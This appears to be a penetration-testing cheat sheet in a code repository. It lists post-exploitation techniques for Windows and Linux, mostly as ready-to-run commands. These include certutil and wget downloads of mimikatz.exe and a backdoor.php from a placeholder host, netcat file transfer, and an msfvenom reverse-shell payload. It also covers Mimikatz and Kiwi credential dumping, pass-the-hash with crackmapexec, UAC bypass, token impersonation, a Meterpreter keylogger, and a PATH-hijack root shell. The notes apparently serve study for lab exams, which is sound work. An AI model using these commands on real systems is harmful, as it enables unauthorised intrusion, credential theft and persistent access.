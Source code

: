 to do --> explain why and when you should use a command or techniques 

# General

<details>
<summary>Transfer files</summary>

- Windows
  - `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
- Linux
  - `wget http://<host>/backdoor.php`
- Netcat
  - `nc -nvlp 1234 > test.txt (recepient)`
  - `nc -nv ip port < test.txt (sender)`
    
</details>

# Windows

<details>
<summary>Enumeration</summary>

- System info
  - `systeminfo`
  - `whoami` : Get current user
  - `whoami /priv` : Get current user privileges. Useful for privelage escalation
  - `wmic qfe get Caption,HotFixID,InstalledOn,Description` : Get installed updates. Useful to see security patch
  - `net localgroup <user>` : Get group membership of user
  - `net user <user>` : Get user info
- Network Info
  - `ipconfig /all`
  - `netstat -ano` : lists info on tcp/udp ports	
  - `netsh advfirewall show allprofiles` : shows f/w status
  - `arp -a` : display arp table
  - `route print` : print route table
- Processes & Services 
  - `net start` : lists services running
  - `wmic service list brief` : same as above with extra details like pid  
  - `net stop <servicename>` : stop a service
  - `tasklist /svc` : list process with respecive services
  - `schtasks /query /fo list /v` : list scheduled tasks
- Automation -> JAWS - https://github.com/411Hall/JAWS
  - `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`     

</details>

<details>
<summary>Persistence</summary>
 
- Metasploit
  - search persistence module
  - Ex: exploit/windows/local/persistence_service
    - It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
  - You need to set a listener to receive the connection
- Enable RDP
  - with metasploit -> search enable_rdp (and set session)
    - Connect to victim from attacker
      - Note: you need username and password, if you don't have the password -> change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      - Note 2: you can create a new account and add it to administrator group...
        
</details>

<details>
<summary>Keylogger</summary>
 
- Metasploit
  - `keyscan_start` : start keylogger
  - `keyscan_dump` : print captured strokes
        
</details>

<details>
<summary>Pivoting</summary>
 
- Metasploit
  - `ipconfig` -> find subnet (the host may be 
  - `run autoroute -s <subnet>` -> adds routes
  - `run autoroute -p` -> displays active routing table
  - auxiliary/scanner/portscan/tcp -> discover other systems
  - `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` -> forward remote port to local port
  - `portfwd list`
  - `nmap -sV -sS -p 1234 localhost`
  - since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload -> windows/meterpreter/bind_tcp
  
</details>

<details>
<summary>Privilege Escalation</summary>

<br>

<details>
<summary>UAC Bypass</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. Akagi64.exe 23 <payload_full_path>
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
      
</details>

<details>
<summary>Impersonate Tokens</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` -> 2628, `ps` ->
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

</details>

<details>
<summary>Password in configuration file (Unattend.xml)</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)
      
</details>

<details>
<summary>Credential Dumping (Mimikatz - Kiwi - Hashdump)</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords -> `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` -> NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` -> To find the clear text passwords, but it's not always possible

</details>

<details>
<summary>Pass the Hash</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit -> windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash -> `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format
  
</details>

<details>
<summary>Other</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software
  
</details>


</details>

# Linux

<details>
<summary>Enumeration</summary>

- System info
  - `uname -a` Print certain system information
  - `env` Print environment variables
  - `cat /etc/issue` Contains a message or system identification to be printed before the login prompt
  - `lscpu` : for hardware info
  - `free -h` : for RAM usage
  - `df -h` : for disk usage
- Enumerate Users
  - `whoami`
  - `groups <user>`
  - `useradd -m bob -s /bin/bash` : Creates a user
  - `usermod -aG root bob` : Add bob to root group
  - `lastlog` : ssh session enumerate
  - `last` : log of users logged in
- Enumerate Network --- **to do**
  - `ip a` 
  - `cat /etc/networks`
  - `cat /etc/hostname`
  - `cat /etc/hosts`
  - `cat /etc/resolv.conf`
  - `arp -a`
  - `netstat`
  - `route`
</details>

<details>
<summary>Privilege Escalation</summary>

- `sudo -l `
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)
  
</details>

# Resource
https://juggernaut-sec.com/blog/
Resource | Description 
--- | ---
[GTFOBins](https://gtfobins.github.io/) | GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) | Linux Privilege Escalation Awesome Script|
[pspy](https://github.com/DominicBreuker/pspy) | Monitor linux processes without root permissions|
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  | Windows Privileges with Windows OS privileges |

